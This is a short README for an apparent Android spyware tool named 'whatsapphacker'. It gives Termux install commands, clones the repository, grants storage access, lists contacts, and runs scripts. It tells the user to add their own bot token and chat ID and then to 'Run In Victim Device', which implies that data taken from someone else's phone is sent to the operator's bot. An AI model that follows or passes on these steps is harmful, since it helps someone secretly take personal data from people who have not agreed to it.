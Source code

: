 # whatsapphacker
Use your OWN responsible.
Download Command
apt update
apt upgrade 
pkg install termux-api
pkg install git
pkg install python
pip install base64
git clone https://github.com/AloneStandLarkaAnas/whatsapphacker
cd whatsapphacker
termux-setup-storage
termux-contact-list
python main.py && python work.py

 *On Git Clone Url Paste Your Url after Fork*
 *Then Replace your Bottoken and Chat Id in admin.txt file*
 Then Run In Victim Device
